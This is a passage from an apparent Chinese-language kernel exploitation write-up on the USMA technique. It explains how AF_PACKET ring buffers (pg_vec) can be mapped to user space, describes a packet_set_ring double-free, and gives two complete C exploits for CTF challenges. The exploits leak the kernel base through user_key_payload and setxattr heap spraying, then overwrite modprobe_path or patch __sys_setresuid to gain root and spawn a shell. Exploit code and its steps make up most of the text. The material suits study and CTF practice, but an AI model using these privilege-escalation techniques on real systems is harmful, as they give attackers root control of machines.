在最开始的`socket`介绍中知道`packet_ops`调用的`ops->mmap`为`packet_mmap()`,`packet_mmap()`会将`pg_vec`中的`pages`对应的物理页面与用户程序的`vma`绑定，也就是将网络数据包的接收和发送缓冲区映射到用户空间。

```
//套接字的映射
static int packet_mmap(struct file *file, struct socket *sock,
        struct vm_area_struct *vma)
{
//...

    start = vma->vm_start;
    for (rb = &po->rx_ring; rb <= &po->tx_ring; rb++) {
        if (rb->pg_vec == NULL)
            continue;
        //pg_vec存储着连续的虚拟地址，现在循环遍历将这些虚拟地址代表的物理页面映射到用户态
        //然后用户态的时候就能对物理页面直接进行读写
        for (i = 0; i < rb->pg_vec_len; i++) {
            struct page *page;
            void *kaddr = rb->pg_vec[i].buffer;
            int pg_num;

            for (pg_num = 0; pg_num < rb->pg_vec_pages; pg_num++) {
                page = pgv_to_page(kaddr);
                err = vm_insert_page(vma, start, page);
                if (unlikely(err))
                    goto out;
                start += PAGE_SIZE;
                kaddr += PAGE_SIZE;
            }
        }
    }

//...
    return err;
}

```

###### **小结**

`mmap`的时候可以映射`socket`的环形缓冲区到用户态，环形缓冲区在`setsockopt`的时候用`pg_vec`构造，使用`GPF_KERNEL`来申请的`object`，并且大小可控，这个时候通过堆块的漏洞去控制`pg_vec`的虚拟地址，然后再映射到用户态就可以对任意内核地址的控制。

调用链：`vm_insert_page()->insert_page()->validate_page_before_insert()`的时候会对`page`进行检查，检查`page` 是否为匿名页,是否为子系统分配的页，是否含有`type`。

```
static int validate_page_before_insert(struct page *page)
{
    //Anon匿名页 Slab子系统分配的页 page是否含有type
    if (PageAnon(page) || PageSlab(page) || page_has_type(page))
        return -EINVAL;
    flush_dcache_page(page);
    return 0;
}
static inline int page_has_type(struct page *page)
{
    return (int)page->page_type < PAGE_MAPCOUNT_RESERVE;
}

```

内存页的`type`为以下四种。

```
//linux-5.11.1\include\linux\page-flags.h
#define PAGE_MAPCOUNT_RESERVE   -128
#define PG_buddy    0x00000080  //伙伴系统页
#define PG_offline  0x00000100  //内存交换出去的页
#define PG_table    0x00000200  //页表的页
#define PG_guard    0x00000400  //内存屏障的页

```

如果传入的`page`为内核代码的页，以上检查都可以绕过，就可以利用`pg_vec`修改内核代码段，这个时候传入`__sys_setresuid`的内核代码页的虚拟地址，然后对逻辑判断处改为`jmp`跳转就可以完成提权。



## 漏洞原理

`setsockopt()`调用`packet_set_ring()`时，版本为`TPACKET_V3`会通过`init_prb_bdqc()`对接收环进行初始化时，`packet_ring_buffer.prb_bdqc.pkbdq`持有一个`pg_vec`引用，并且后期释放操作并没有对该位置进行清除。进而版本转换为`TPACKET_V2`时，`rx_owner_map`和`prb_bdqc`为一个联合体，并且偏移一致，

导致残留的`pg_vec`会变成`rx_owner_map`指针，导致最后释放操作的时候，造成`doble free`。

## 漏洞利用

1. 调用`socket`创建套接字,`family`为`AF_PACKET`，`type`为`SOCK_RAW`。
2. 调用`TPACKET_V3`的`setsockopt`,创建环形缓冲区。
3. 再次调用`setsockopt`，版本号还是`TPACKET_V3`，设置`req->tp_block_nr`为`0`，会释放第一次申请的缓冲区。
4. 使用堆喷等手法申请回释放的`pg_vec`
5. 调用`TPACKET_V2`的`setsockopt`，实现`double free`

## 2024SCTF-ker

提供了三个功能，创建的堆块大小固定为0x40，并且存在`uaf`，还给了一次的`edit`机会



`0x40`的`object`能利用的结构体很少，使用堆喷`user_key_payload`来辅助泄露出来内核`.text`地址后使用USMA手法喷上页面修改为`modprobe` 然后修改指向非法文件拿到`flag`

需要注意的是`socket`是特权函数不能非在`root`命名空间执行，可以通过创建用户命名空间，尽管会被隔离但是会被赋予`root`权限

利用过程：

* 利用`double free`喷上`user_key_payload`后释放
* 利用`setxattr`修改`payload`中的`datalen`,这样就有越界读
* 然后释放其他全部的`payload`和`key`，被释放的`user_key_payload`指向内核`.text`地址
* 越界读取泄露`.text`地址
* 喷上`rx_rings`，大小对应`0x40/8`的`block_nr`,覆盖原本的`user_key_payload`
* 修改`pg_vec`为`modprobe`的页表处，然后映射`ring`到用户态处
* 修改`modprobe`指向文件拿到flag

```
#define _GNU_SOURCE 
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>
#include <stdlib.h>
#include <string.h>
#include<unistd.h>
#include<sys/mman.h>
#include<signal.h>
#include<pthread.h>
#include<linux/userfaultfd.h>
#include <sys/ioctl.h>
#include<syscall.h>
#include<poll.h>
#include <semaphore.h>
#include <sched.h>
#include<sys/xattr.h>
#include <sys/socket.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <net/ethernet.h>
#include <sys/sysinfo.h>
#include <linux/if_packet.h>
#include <net/if.h>
#pragma pack(16)
#define __int64 long long
#define CLOSE printf("\033[0m\n");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define showAddr(var) _showAddr(#var,var);
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char


size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_direct_base=0xffff888000000000;
size_t commit_creds = 0,prepare_kernel_cred = 0;
size_t vmlinux_base = 0;
size_t swapgs_restore_regs_and_return_to_usermode=0;
size_t user_cs, user_ss, user_rflags, user_sp;
size_t init_cred=0;
size_t __ksymtab_commit_creds=0,__ksymtab_prepare_kernel_cred=0;
void save_status();
size_t find_symbols();
void _showAddr(char*name,size_t data);
void errExit(char * msg);
void getshell(void);
size_t cvegetbase();
void bind_cpu(int core);
void mypause();
int dev_fd;

const char* FileAttack="/dev/ker\0";
#include"Headers/my_key.h"

#define SPRAY_UKP_COUNT 0x100
#define SPRAY_PIPE_COUNT 0x40
#define SPRAY_RING_COUNT 0x100
#define UKP_TAG "mowen123"
int global_spray_index=0;
int ukp_fd[SPRAY_UKP_COUNT];
int pipe_fd[SPRAY_PIPE_COUNT][2];
int ring_fd[SPRAY_RING_COUNT];
void add(void* buf) {
    char** arg = (char**)&buf;
    ioctl(dev_fd, 0x20, arg);
}

void edit(unsigned long val) {
    unsigned long* buf = &val;
    unsigned long** arg = &buf;
    ioctl(dev_fd, 0x50, arg);
}

void del() {
    char tmp[0x10]={0};
    ioctl(dev_fd, 0x30, tmp);
}
//创建新的linux命名空间
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;
    //unshare 创建新的命名空间
    /*
        CLONE_NEWNS 创建新的文件系统命名空间
        CLONE_NEWUSER 创建新的用户命名空间
        CLONE_NEWNET 创建新的网络命名空间
    */
    if(unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET))
        errExit("create a new namespace");
    //用户组配置
    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "mowen", 5);
    close(tmp_fd);
    //设置用户ID映射
    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    printf("/proc/self/uid_map -> %s\n",edit);
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
    // 设置组映射
    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    printf("/proc/self/gid_map -> %s\n",edit);
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

void spray_ukp(int n){
    char payload[0x20]={0};
    memset(payload,'a',0x20-1);
    for (size_t i = global_spray_index; i < global_spray_index+n; i++)
    {
        char description[0x10]={0};
        snprintf(description,sizeof(description)-1,"mowen_%d",i);

        ukp_fd[i]=key_alloc(description,payload,0x20);
        if(ukp_fd[i]<0)errExit("spray_ukp");
    }
    global_spray_index+=n;   
}
int set_packet_rx_ring(int block_nr,int block_size,int frame_size,int prvatie_size,int timeout){
    /* 层级 数据包类型 协议*/
    int sock=socket(AF_PACKET,SOCK_RAW,htonl(ETH_P_ALL));
    if(sock<0)errExit("socket open");

    // puts("set version");
    /* fd 协议层 设置选择 设置数据 数据长度 */
    int version=TPACKET_V3;
    if(setsockopt(sock,SOL_PACKET,
                PACKET_VERSION,&version,sizeof(version))<0){
        errExit("set version");
    }
    //配置缓冲区
    struct tpacket_req3 req3;
    req3.tp_block_nr=block_nr;
    req3.tp_block_size=block_size;
    req3.tp_frame_size=frame_size;
    req3.tp_frame_nr=block_nr*block_size / frame_size;
    req3.tp_retire_blk_tov=timeout;
    req3.tp_feature_req_word=0;
    req3.tp_sizeof_priv=prvatie_size;

    if(setsockopt(sock,SOL_PACKET,PACKET_RX_RING,&req3,sizeof(req3))<0){
        errExit("set rx_ring");
    }

    //绑定套接字
    struct sockaddr_ll sa;
    memset(&sa,0,sizeof(sa));
    sa.sll_family=AF_PACKET;
    sa.sll_protocol=htons(ETH_P_ALL);
    sa.sll_ifindex=if_nametoindex("lo");
    if(bind(sock,(struct sockaddr*)&sa,sizeof(sa))<0){
        errExit("bind");
    }
    return sock;   
}
void spray_socket(int count){
    static int n=0;
    for (size_t i = n; i < n+count; i++)
    {
        ring_fd[i]=set_packet_rx_ring(8,sysconf(_SC_PAGE_SIZE),sysconf(_SC_PAGE_SIZE)/2,0,10000);
    }
    n+=count;

}
void modprobe_get_flag(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag' > /tmp/x"); // modeprobe_path 修改为了 /tmp/x
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy"); // 非法格式的二进制文件
    system("chmod +x /tmp/dummy");
    system("/tmp/dummy"); // 执行非法格式的二进制文件 ==> 执行 modeprobe_path 指向的文件 /tmp/x
    sleep(0.3);
    system("cat /flag");
    exit(0);
}
int main(void){

   save_status();
   BLUE;puts("[*]start");CLOSE;
   unshare_setup();
   dev_fd = open(FileAttack,2);
    if(dev_fd < 0){
        errExit(FileAttack);
    }
    bind_cpu(0);
    char* buf =(char*)malloc(0x1000);

    spray_ukp(0x10);
    add(buf);
    del();
    spray_ukp(0x10);//object -> user_key_payload
    del();
    *(size_t*)&buf[0x10]=0x800;
    memcpy(buf+0x18,UKP_TAG,8);
    //利用setxattr 特性篡改content 找到 uaf object
    setxattr("/tmp","mowen",buf,0x40,0);//object -> setxattr
    // mypause();
    memset(buf,0,0x1000);
    int victim_fd=-1;
    for (size_t i = 0; i < global_spray_index; i++)
    {
        key_read(ukp_fd[i],buf,0x800);
        // binary_dump("buf",buf,0x20);
        if(memcmp(buf,UKP_TAG,8)==0){
            victim_fd=i;
            GREEN;printf("found victim object -> %d",victim_fd);CLOSE;
            break;
        }
    }
    if(victim_fd==-1)errExit("not found uaf object");
    puts("try to leak .text addr << release key");
    for (size_t i = 0; i < global_spray_index; i++)
    {
        if(i==victim_fd)continue;
        key_revoke(ukp_fd[i]);
        key_unlink(ukp_fd[i]);
    }

    for (size_t i = 0; i < global_spray_index; i++)
    {
        if(i==victim_fd)continue;
        key_revoke(ukp_fd[i]);
        key_unlink(ukp_fd[i]);
    }
    // try construct ptr from user_free_payload_rcu
    puts("try construction ptr from user_free_payload_rcu");
    if(key_read(ukp_fd[victim_fd],buf,0x800)<0)errExit("oob read again");
    // mypause();
    size_t * lbuf=(size_t*)buf;
    // binary_dump("lbuf",lbuf,0x800);
    for (size_t i = 0; i < 0x100; i++)
    {
        if(lbuf[i]>>32!=0xffffffff)continue;
        // printf("%p\n",lbuf[i]);
        if((lbuf[i]&0xffff)==0x8850){
            vmlinux_base=lbuf[i]-0x608850;
            break;
        }

    }

    if(vmlinux_base==0){
        binary_dump("buf",buf,0x800);
        // mypause();
        errExit("leak vmlinux_base");
    }
    showAddr(vmlinux_base);


    spray_socket(0x20);
    size_t modprobe = vmlinux_base+0x021d8ce0;
    showAddr(modprobe);
    edit(modprobe& (~0xfff));
    char* modmap_addr=0;
    for (size_t i = 0; i < 0x20; i++)
    {
        char* map=(char*)mmap(0,0x8000,
            PROT_READ|PROT_WRITE,MAP_SHARED,ring_fd[i],0);
        if(!strcmp(&map[modprobe & 0xfff],"/sbin/modprobe")){
            modmap_addr=map;
            break;
        }
        munmap(map,0x8000);
    }
    if(modmap_addr==0){
        errExit("USMA");
    }
    GREEN;printf("USMA successful");CLOSE;
    strcpy(&modmap_addr[modprobe & 0xfff],"/tmp/x");

    modprobe_get_flag();

    // mypause();


   BLUE;puts("[*]end");CLOSE;
   return 0;
}


void save_status(){
   __asm__("mov user_cs,cs;"
           "pushf;" //push eflags
           "pop user_rflags;"
           "mov user_sp,rsp;"
           "mov user_ss,ss;"
          );

    puts("\033[34mUser land saved.\033[0m");
    printf("\033[34muser_ss:0x%llx\033[0m\n", user_ss);
    printf("\033[34muser_sp:0x%llx\033[0m\n", user_sp);
    printf("\033[34muser_rflags:0x%llx\033[0m\n", user_rflags);
    printf("\033[34muser_cs:0x%llx\033[0m\n", user_cs);

}


void binary_dump(char *desc, void *addr, int len) {
    _QWORD *buf64 = (_QWORD *) addr;
    _BYTE *buf8 = (_BYTE *) addr;
    if (desc != NULL) {
        printf("\033[33m[*] %s:\n\033[0m", desc);
    }
    for (int i = 0; i < len / 8; i += 4) {
        printf("  %04x", i * 8);
        for (int j = 0; j < 4; j++) {
            i + j < len / 8 ? printf(" 0x%016lx", buf64[i + j]) : printf("                   ");
        }
        printf("   ");
        for (int j = 0; j < 32 && j + i * 8 < len; j++) {
            printf("%c", isprint(buf8[i * 8 + j]) ? buf8[i * 8 + j] : '.');
        }
        puts("");
    }
}


void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}
void getshell(void)
{   
    BLUE;printf("[*]Successful");CLOSE;
    system("/bin/sh");
}

void _showAddr(char*name,size_t data){
   GREEN;printf("[*] %s -> 0x%llx ",name,data);CLOSE;
}
void errExit(char * msg){
   RED;printf("[X] Error : %s !",msg);CLOSE;
   exit(-1);
}
void mypause(){
   RED;printf("pause,please enther any key");CLOSE;
   getchar();
}

```

## N1CTF2022-praymoon

给了`userfaultfd`的权限，这个配合`setxattr`就很好利用



给了`0x200`的`object`的一次`uaf`操作



保护开了`memcg`会造成资源隔离，申请的`object`标识符为`GFP_KERNEL`，一些常见的堆喷都无法使用`msg_msg` ,`sk_buff`,但是`user_key_payload`任意可用，在开启了page\_alloctor 后会随机页面分配，普通手法使用setxattr去修改payload的dalen的时候可能会无法命中，使用两次的userfaultfd+setxattr就可以百分百名中，并且可以控制object的延迟释放。并且开了freelist Hardened不能直接double free



思路：利用uaf喷上user\_key\_payload,然后使用setxattr修改dalen完成越界读泄露出来.text地址，然后释放user\_key\_payload,控制延时不要释放setxattr，等利用USMA手法喷上pg\_vec后再释放setxattr申请的uaf object，然后再次使用setxattr修改page指向\_\_sys\_setreuid的page页表，然后篡改判断逻辑，让普通用户也可以使用setreuid拿到root权限。

```
#define _GNU_SOURCE 
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>
#include <stdlib.h>
#include <string.h>
#include<unistd.h>
#include<sys/mman.h>
#include<signal.h>
#include<pthread.h>
#include<linux/userfaultfd.h>
#include <sys/ioctl.h>
#include<syscall.h>
#include<poll.h>
#include <semaphore.h>
#include <sched.h>
#include<sys/xattr.h>
#include <sys/socket.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <net/ethernet.h>
#include <sys/sysinfo.h>
#include <linux/if_packet.h>
#include <net/if.h>
#pragma pack(16)
#define __int64 long long
#define CLOSE printf("\033[0m\n");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define showAddr(var) _showAddr(#var,var);
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char

#define COLOR_GREEN "\033[32m"
#define COLOR_RED "\033[31m"
#define COLOR_YELLOW "\033[33m"
#define COLOR_BLUE "\033[34m"
#define COLOR_DEFAULT "\033[0m"
#define logd(fmt, ...) dprintf(2, COLOR_BLUE "[*] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logi(fmt, ...) dprintf(2, COLOR_GREEN "[+] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logw(fmt, ...) dprintf(2, COLOR_YELLOW "[!] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define loge(fmt, ...) dprintf(2, COLOR_RED "[-] %s:%d " fmt "\n" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)

size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_direct_base=0xffff888000000000;
size_t commit_creds = 0,prepare_kernel_cred = 0;
size_t vmlinux_base = 0;
size_t swapgs_restore_regs_and_return_to_usermode=0;
size_t user_cs, user_ss, user_rflags, user_sp;
size_t init_cred=0;
size_t __ksymtab_commit_creds=0,__ksymtab_prepare_kernel_cred=0;
void save_status();
size_t find_symbols();
void _showAddr(char*name,size_t data);
void errExit(char * msg);
void getshell(void);
size_t cvegetbase();
void bind_cpu(int core);
void mypause();
int dev_fd;


#include"Headers/my_key.h"

#define SPRAY_UKP_COUNT 0x100
#define SPRAY_RING_COUNT 0x100
int ukp_fd[SPRAY_UKP_COUNT];
int ring_fd[SPRAY_RING_COUNT];
int global_ukp_sp=0;

sem_t sem1,sem2;

typedef struct __attribute__((aligned(16)))
{
   size_t uffd;
   struct uffdio_api uapi;
   struct uffdio_register uregister;
}reg_user,*p_imgae_reg;

void Register_Userfalutfd(void* addr,size_t length,void* (*handler)(void*)){

   reg_user reguser={0};
   p_imgae_reg preg=&reguser;
   preg->uffd=syscall(__NR_userfaultfd,__O_CLOEXEC|O_NONBLOCK);
   if(preg->uffd<0){
      errExit("__NR_userfaultfd");
   }
   preg->uapi.api=UFFD_API;
   preg->uapi.features=0;
   if(ioctl(preg->uffd,UFFDIO_API,&preg->uapi)<0)errExit("ioctl ->UFFDIO_API");
   preg->uregister.mode=UFFDIO_REGISTER_MODE_MISSING;
   preg->uregister.range.start=addr;
   preg->uregister.range.len=length;
   if(ioctl(preg->uffd,UFFDIO_REGISTER,&preg->uregister)<0)errExit("ioctl -> UFFDIO_REGISTER");
   pthread_t thread;
   if(pthread_create(&thread,NULL,handler,(void*)preg->uffd)<0)errExit("pthread_create handler");

}


void Userfault_Handler_sleep3(int uffd){
    printf("Userfault_Handler_sleep3 START\n");
    struct uffd_msg msg={0};
    struct uffdio_copy ufcopy={0};
    size_t* data=(size_t*)mmap(NULL,0x1000,3,0x20|0x2,-1,0);
    if(data<0)errExit("Userfault_Handler mmap");

    do
    {
        struct pollfd pf={0};
        pf.fd=uffd;
        pf.events=POLLIN;
        poll(&pf,1,-1);
        read(uffd,&msg,sizeof(msg));
        if(msg.event<=0){
            printf("event NULL");
            continue;
        }
        loge("wait sem1");
        sem_wait(&sem1);
        // debug("Userfault_Handler_sleep3");
        loge("post sem1");

        ufcopy.dst=msg.arg.pagefault.address & ~(sysconf(_SC_PAGE_SIZE)-1);
        ufcopy.src=data;
        ufcopy.len=sysconf(_SC_PAGE_SIZE);
        ioctl(uffd,UFFDIO_COPY,&ufcopy);

        break;

    } while (1);

    printf("Userfault_Handler_sleep3 END\n");
}

void Userfault_Handler_sleep20(int uffd){
    printf("Userfault_Handler_sleep20 START\n");
    struct uffd_msg msg={0};
    struct uffdio_copy ufcopy={0};
    size_t* data=(size_t*)mmap(NULL,0x1000,3,0x20|0x2,-1,0);
    if(data<0)errExit("Userfault_Handler mmap");

    do
    {
        struct pollfd pf={0};
        pf.fd=uffd;
        pf.events=POLLIN;
        poll(&pf,1,-1);
        read(uffd,&msg,sizeof(msg));
        if(msg.event<=0){
            printf("event NULL");
            continue;
        }
        loge("sleep 20s");
        sleep(20);
        loge("sleep end");

        ufcopy.dst=msg.arg.pagefault.address & ~(sysconf(_SC_PAGE_SIZE)-1);
        ufcopy.src=data;
        ufcopy.len=sysconf(_SC_PAGE_SIZE);
        ioctl(uffd,UFFDIO_COPY,&ufcopy);

        break;

    } while (1);

    printf("Userfault_Handler_sleep20 END\n");
}
//创建新的linux命名空间
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;
    //unshare 创建新的命名空间
    /*
        CLONE_NEWNS 创建新的文件系统命名空间
        CLONE_NEWUSER 创建新的用户命名空间
        CLONE_NEWNET 创建新的网络命名空间
    */
    if(unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET))
        errExit("create a new namespace");
    //用户组配置
    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "mowen", 5);
    close(tmp_fd);
    //设置用户ID映射
    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    printf("/proc/self/uid_map -> %s\n",edit);
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
    // 设置组映射
    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    printf("/proc/self/gid_map -> %s\n",edit);
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

void add(){
    ioctl(dev_fd,0x5555);
}
void del(){
    ioctl(dev_fd,0x6666);
}
void* pthread_setxattr(void* addr){
    setxattr("/tmp","mowen",addr,0x200,0);
    // puts("pthread_setxattr end");
    return 0;
}
int set_packet_rx_ring(int block_nr,int block_size,int frame_size,int prvatie_size,int timeout){
    /* 层级 数据包类型 协议*/
    int sock=socket(AF_PACKET,SOCK_RAW,htonl(ETH_P_ALL));
    if(sock<0)errExit("socket open");

    // puts("set version");
    /* fd 协议层 设置选择 设置数据 数据长度 */
    int version=TPACKET_V3;
    if(setsockopt(sock,SOL_PACKET,
                PACKET_VERSION,&version,sizeof(version))<0){
        errExit("set version");
    }
    //配置缓冲区
    struct tpacket_req3 req3;
    req3.tp_block_nr=block_nr;
    req3.tp_block_size=block_size;
    req3.tp_frame_size=frame_size;
    req3.tp_frame_nr=block_nr*block_size / frame_size;
    req3.tp_retire_blk_tov=timeout;
    req3.tp_feature_req_word=0;
    req3.tp_sizeof_priv=prvatie_size;

    if(setsockopt(sock,SOL_PACKET,PACKET_RX_RING,&req3,sizeof(req3))<0){
        errExit("set rx_ring");
    }

    //绑定套接字
    struct sockaddr_ll sa;
    memset(&sa,0,sizeof(sa));
    sa.sll_family=AF_PACKET;
    sa.sll_protocol=htons(ETH_P_ALL);
    sa.sll_ifindex=if_nametoindex("lo");
    if(bind(sock,(struct sockaddr*)&sa,sizeof(sa))<0){
        errExit("bind");
    }
    return sock;   
}


size_t maybe_base=0xffffffffb4200000;
size_t maybe_addr[]={
0xffffffffb4d5ba30,
0xffffffffb4d5aea0,
0xffffffffb4d5ae80,
0xffffffffb4695f60,
0xffffffffb463e280,
0xffffffffb4cbd380,
0xffffffffb4cbe020,
0xffffffffb4cbd380,
0xffffffffb4cbe020,
0xffffffffb463e280,
};


const char* FileAttack="/dev/seven\0";
int pipe_fd[2];
int main(void){
   save_status();
   logi("start");

//    bind_cpu(0);
    char* buf=malloc(0x1000);
    size_t* lbuf=(size_t*)buf;
    sem_init(&sem1,0,0);
    pipe(pipe_fd);

    pid_t pid;
    pid=fork();
    if(pid==0){
        unshare_setup();
        close(pipe_fd[0]);
        puts("child start");
        puts("open dev");
        dev_fd = open(FileAttack,2);
        if(dev_fd < 0){
            errExit(FileAttack);
        }


        char* addr2=mmap(0,0x2000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);
        Register_Userfalutfd(addr2+0x1000,0x1000,Userfault_Handler_sleep20);

        char* addr=mmap(0,0x2000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);
        Register_Userfalutfd(addr+0x1000,0x1000,Userfault_Handler_sleep3);
        size_t* ptr=(size_t*)(addr+0x1000-0x150);
        ptr[0]=*(size_t*)"mowen1";
        ptr[1]=*(size_t*)"mowen2";
        ptr[2]=0x1000;

        logd("spray user_key_payload");

        // CONFIG_SHUFFLE_PAGE_ALLOCATOR=y  probability probability
        add();
        del();
        memset(buf,'a',0x100);
        int key_fd= key_alloc("mowen",buf,0x100);   

        del();

        // do_setxattr(Userfault_Handler_sleep3);
        //两次必命中  CONFIG_SHUFFLE_PAGE_ALLOCATOR=y
        pthread_t pt,pt1;
        pthread_create(&pt,0,(void* (*)(void*))pthread_setxattr,
                            addr+0x1000-0x150);
        sleep(1);
        pthread_create(&pt1,0,(void* (*)(void*))pthread_setxattr,
                            addr+0x1000-0x150);
        sleep(1);

        int read_count = key_read(key_fd,buf,0x1000);
        printf("[+]read_count: %d\n",read_count);

        if(read_count<512){
            logw("failed oob read");
            goto out;
        }
        logi("successful oob read");

        for (size_t i = 0; i < 0x1000/8; i++)
        {
            if(lbuf[i]>>32!=0xffffffff)continue;
            printf("%p\n",lbuf[i]);
            for (size_t j = 0; j < sizeof(maybe_addr)/sizeof(maybe_addr[0]) ; j++)
            {
                if( (lbuf[i]&0xffff) == (maybe_addr[j]&0xffff) ){
                    vmlinux_base=lbuf[i]-(maybe_addr[j]-maybe_base);
                    goto maybe_out;
                }
            }        
        }
    maybe_out:  
        if(vmlinux_base==0)errExit("leak base");
        showAddr(vmlinux_base);


        puts("set_packet_rx_ring ");
        key_revoke(key_fd);
        sleep(1);
        int sock_packet = set_packet_rx_ring(33,sysconf(_SC_PAGE_SIZE),sysconf(_SC_PAGE_SIZE)/2,0,10000);// 32 -  64
        sem_post(&sem1);
        sleep(1);

        size_t sys_srtresuid_offset=0x86f20;
        size_t sys_setresuid=vmlinux_base+(sys_srtresuid_offset);
        showAddr(sys_setresuid);

        ptr=(size_t*)(addr2+0x1000-0x150);
        puts("spray  sys_srtresuid_page");
        for (size_t i = 0; i < 0x150/8; i++)
        {
            ptr[i]=sys_setresuid & (~0xfff);
        }
        pthread_t thr_sleep,thr_sleep2;
        pthread_create(&thr_sleep, NULL, pthread_setxattr, ptr);
        sleep(1);
        pthread_create(&thr_sleep2, NULL, pthread_setxattr, ptr);
        sleep(1);
        puts("start mmap  kernel packet to user space ");
        char *page = (char *)mmap(NULL, 33*sysconf(_SC_PAGE_SIZE),
                                      PROT_READ | PROT_WRITE, MAP_SHARED, sock_packet, 0);
        printf("mmap done\n");

        page[0xfd8] = 0xeb;         // change if branch
        write(pipe_fd[1],"mowen",5);
        close(pipe_fd[1]);
        puts("child down");
        pause();
    }else{
        close(pipe_fd[1]);
        puts("parent  wait ");
        char buf[0x10]={0};
        read(pipe_fd[0],buf,5);
        close(pipe_fd[0]);
        puts("parent continue");

        puts("new");
        uid_t old_uid=getuid();
        uid_t old_euid=geteuid();
        setresuid(0, 0, 0);
        printf("old_uid %d -> getuid: %d\n",old_uid,getuid());
        printf("old_euid %d -> geteuid: %d\n",old_euid,geteuid());
        getshell();
    }

    pause();
out:
   logi("end");
   return 0;
}


void save_status(){
   __asm__("mov user_cs,cs;"
           "pushf;" //push eflags
           "pop user_rflags;"
           "mov user_sp,rsp;"
           "mov user_ss,ss;"
          );

    puts("\033[34mUser land saved.\033[0m");
    printf("\033[34muser_ss:0x%llx\033[0m\n", user_ss);
    printf("\033[34muser_sp:0x%llx\033[0m\n", user_sp);
    printf("\033[34muser_rflags:0x%llx\033[0m\n", user_rflags);
    printf("\033[34muser_cs:0x%llx\033[0m\n", user_cs);

}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}
void getshell(void)
{   
    BLUE;printf("[*]Successful");CLOSE;
    system("/bin/sh");
}

void _showAddr(char*name,size_t data){
   GREEN;printf("[*] %s -> 0x%llx ",name,data);CLOSE;
}
void errExit(char * msg){
   RED;printf("[X] Error : %s !",msg);CLOSE;
   exit(-1);
}

```
